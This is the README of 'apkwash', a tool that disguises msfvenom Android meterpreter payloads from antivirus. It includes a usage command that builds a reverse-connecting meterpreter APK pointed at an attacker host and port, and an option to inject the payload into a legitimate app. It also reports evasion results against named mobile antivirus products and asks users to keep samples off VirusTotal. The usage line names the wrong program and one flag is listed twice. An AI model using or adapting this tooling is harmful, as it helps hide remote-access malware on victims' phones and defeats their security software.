 # apkwash
Android APK Antivirus evasion for msfvenom generated payloads.
<br><br>
<b> -- Please do not upload "washed" files to VirusTotal.com -- </b><br>
<br>
<br>
<b> Tested on Kali linux rolling. </b><br>
<br>
<br>
<b>Setup:</b><br>
apt-get update && apt-get upgrade<br>
chmod +x apkwash<br>
mv apkwash /usr/local/bin/.<br>
<br>
<b>On first run:</b><br>
-Downloads and places apktool.jar in the user's /usr/local/bin directory<br>
-Generates debug keystore for signing. Places it in ~/.android/<br>
<br>
<b>Usage:</b><br>
apktool -p android/meterpreter/reverse_http LHOST=192.168.1.40 LPORT=1337 -o \<payload>.apk<br>
<br>
<b>Input Options:</b><br>
-p | --payload \<payload>       : (Default: android/meterpreter/reverse_https) This sets the payload to be generated by msfvenom.<br>
-o | --output \<outfile.apk>    : (Default: payload.apk) This sets the name of the APK created as well as the output filename.<br>
-x | --original \<infile.apk>   : (MSFVenom -x) Input APK to inject the payload into.<br>
-x | --newkey                   : For auto-removing debug key to allow the creation of a new key within the script<br>
-d | --debug                    : Don't remove the /tmp/payload directory<br>
-v | --verbose                  : Don't mask output of commands<br>
-h | --help                      : Help information<br>
<br>
<b>Output:</b><br>
\<payload>.apk & \<payload>.listener<br>
<br>
<b>Antivirus detection:</b><br>
0/35 on nodistribute - 20Mar17<br>
Verified for AVG mobile<br>
Verified for Kaspersky mobile<br>
Verified for Lookout<br>
FLAGGED BY AVAST!<br>
APK:CloudRep[Susp] is the report for the suspicious app on Avast. <br>
Per Avast: "the APK:CloudRep [Susp] is a warning-like message for applications that are very new/rare/previously unseen in our userbase." Based on this alone it doesn't appear we can modify anything to avoid being flagged. It allows the user to accept the risks, or uninstall the app.<br>
<br>
<b>Modifiations:</b><br>
Feel free to open the script and make improvements. This script basically utilizes APKTool to open the package, uses sed to replace strings that flag AV, recompiles, then signs.<br>
<br>
<br>
<b>Files:</b><br>
/tmp/payload    (Main files to review: AndroidManifest.xml and the smali files)
<br>
<br>
<b>Debugging</b><br>
Comment out the removal of the /tmp/payload directory to see the file structure that was compiled.<br><br><br>
<b>If you are seeing other "Payload".smali files in /tmp/payload/smali/com/var1/var2/ then be sure you have an updated system. I have found an older msfvenom version output a different payload that will be flagged by AVG (1/35 on nodistribute). Just making sure you are completely updated should resolve this.</b>
